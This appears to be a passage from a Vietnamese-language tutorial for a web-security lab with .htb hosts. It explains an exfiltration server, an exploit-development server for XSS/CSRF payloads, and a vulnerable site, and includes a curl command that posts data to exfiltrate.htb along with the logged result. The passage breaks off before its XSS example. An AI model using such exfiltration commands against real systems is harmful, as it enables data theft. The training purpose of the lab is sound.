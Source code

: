 #### **2. Các Thành phần của Môi trường Lab**

Môi trường lab sẽ bao gồm các thành phần chính sau:

- **Máy chủ Exfiltration**: `exfiltrate.htb`
- **Máy chủ Phát triển Khai thác**: `exploitserver.htb`
- **Ứng dụng web dễ bị tấn công**: `vulnerablesite.htb`

Chúng ta sẽ lần lượt đi qua các thành phần này và giải thích vai trò của chúng trong việc khai thác lỗ hổng.

#### **3. Máy chủ Exfiltration (`exfiltrate.htb`)**

Máy chủ exfiltration được sử dụng để thu thập và lưu trữ dữ liệu bị rò rỉ từ các yêu cầu HTTP. Máy chủ này sẽ ghi lại tất cả các tham số của các yêu cầu được gửi đến, bao gồm các tham số **GET**, **POST**, và các **HTTP headers**.

- **Truy cập log**: Bạn có thể truy cập log tại endpoint `/log` để xem tất cả dữ liệu bị rò rỉ.

##### **Ví dụ về Exfiltration**

Giả sử chúng ta muốn rò rỉ dữ liệu qua hai tham số là `param1` và `param2`, chúng ta có thể sử dụng lệnh sau:

```bash
curl -X POST --data 'param1=Hello' http://exfiltrate.htb?param2=World
```

Sau đó, chúng ta có thể kiểm tra log để xem dữ liệu đã được rò rỉ:

```bash
curl http://exfiltrate.htb/log
```

- **Phản hồi từ máy chủ log**:

```
/?param2=World
Host: exfiltrate.htb
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 172.17.0.1
Content-Length: 12
param1=Hello
```

Chúng ta cũng có thể truy cập log qua trình duyệt web bằng cách vào URL `http://exfiltrate.htb/log`.

#### **4. Máy chủ Phát triển Khai thác (`exploitserver.htb`)**

Máy chủ này được sử dụng để phát triển các payload khai thác CSRF hoặc XSS. Nó cho phép chúng ta viết các khai thác tùy chỉnh nhằm mục tiêu vào các lỗ hổng mà chúng ta tìm thấy trên ứng dụng web dễ bị tấn công.

- **Ví dụ về Proof-of-Concept cho XSS**:
  Giả sử chúng ta muốn tạo một payload XSS đơn giản để hiển thị một hộp thông báo (alert):
